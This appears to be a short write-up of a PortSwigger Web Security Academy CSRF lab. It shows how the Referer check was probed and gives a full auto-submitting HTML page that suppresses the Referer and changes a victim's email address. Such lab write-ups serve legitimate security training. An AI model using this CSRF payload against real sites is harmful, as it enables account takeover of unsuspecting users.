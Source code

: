 # CSRF where Referer validation depends on header being present

## This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

## To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1 login

and change email and send to repeater
Referer: https://0a43001e04d993ff82467bab00ad0052.web-security-academy.net/my-account
change .net to .com and send request
Referer: https://0a43001e04d993ff82467bab00ad0052.web-security-academy.com/my-account
"Invalid referer header"
Delete the Referer header entirely and observe that the request is now accepted.and send request it will 302 found

HTML to suppress the Referer header

### HINT:

```html
<meta name="referrer" content="never" />
```

```html
<html>
  <head>
    <meta name="referrer" content="never" />
  </head>
  <body>
    <form
      action="https://0aa900d10373edfe81cd75dd008f004f.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

delivered to victim
